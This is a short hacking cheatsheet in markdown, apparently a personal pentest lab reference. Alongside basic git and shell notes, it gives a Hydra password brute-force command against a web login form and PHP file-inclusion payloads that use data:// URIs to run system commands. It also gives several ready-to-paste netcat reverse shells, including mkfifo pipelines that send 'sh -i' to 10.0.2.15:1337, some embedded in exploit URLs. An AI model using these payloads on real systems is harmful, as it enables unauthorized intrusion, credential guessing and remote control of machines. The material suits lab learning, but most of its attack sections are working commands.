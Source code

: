 # Cheatsheet 

## Sending And Receiving Files With Netcat

### Sending
`nc DESTINATIONSERVER PORT < FILENAME`

### Recieving
`nc -l -p PORT > FILE`


## Change The Time

`date -s "DD MMM YYYY HH:MM:SS"`


## GIT

```bash
git init in your desired directory
git add (your file)
git commit -m (your message)
git push
```

## Hydra Basic Stuff

### HTTP

```bash
hydra -l admin -P <Pathtodesiredwordlist> <VictimIP> http-post-form "<LoginPage>:username=^USER^&password=^PASS^&Login=Login:Access Denied" -V
```
-l indicates a single username (use -L for a username list)  
-P indicates use the following password list  
http-post-form indicates the type of form  
/dvwa/login-php is the login page URL  
username is the form field where the username is entered  
^USER^ tells Hydra to use the username or list in the field  
password is the form field where the password is entered (it may be passwd, pass, etc.)  
^PASS^ tells Hydra to use the password list supplied  
Login indicates to Hydra the login failed message  
Login failed is the login failure message that the form returned
-V is for verbose output showing every attempt

## PHP
http://10.0.2.100/vulnerabilities/fi/?COMMAND=ls&page=data://text/plain,%3C?php%20system($_GET[%27COMMAND%27]);%20?%3E


## NC Reverse Shell

### Terminal
`nc -lvvvnp 4444`

### Target
`nc <your IP> 4444 –e /bin/bash`

http://10.0.2.100/vulnerabilities/fi/?page=data://text/plain,<?php system('TARGET=10.0.2.15; PORT=1337; PIPE=/tmp/fifo.tmp; rm ${PIPE}; mkfifo ${PIPE}; cat ${PIPE} | sh -i 2>%261 | nc ${TARGET} ${PORT} >${PIPE}'); ?>

10.0.2.4:8380/index.php?page=data://text/plain,<?php system('TARGET=10.0.2.15; PORT=1337; PIPE=/tmp/fifo.tmp; rm ${PIPE}; mkfifo ${PIPE}; cat ${PIPE} | sh -i 2>%261 | nc ${TARGET} ${PORT} >${PIPE}'); ?>


rm /tmp/fifo.tmp; mkfifo /tmp/fifo.tmp; cat /tmp/fifo.tmp | sh -i 2>&1 | nc 10.0.2.15 1337 >/tmp/fifo.tmp


TARGET=10.0.2.15; PORT=1337; PIPE=/tmp/fifo.tmp; rm ${PIPE}; mkfifo ${PIPE}; cat ${PIPE} | sh -i 2>&1 | nc ${TARGET} ${PORT} >${PIPE}

- Note 2 self: URL encode ampersand `&` naar `%26` ivm url betekenis!
http://10.0.2.100/vulnerabilities/fi/?page=data://text/plain,<?php system('TARGET=10.0.2.15; PORT=1337; PIPE=/tmp/fifo.tmp; rm ${PIPE}; mkfifo ${PIPE}; cat ${PIPE} | sh -i 2>%261 | nc ${TARGET} ${PORT} >${PIPE}'); ?>


## BASH STUFFS  
`ls -all`
`find <desireddirectory> | grep <filename>`


## Propper shell  
`echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py`
`python3 /tmp/asdf.py`
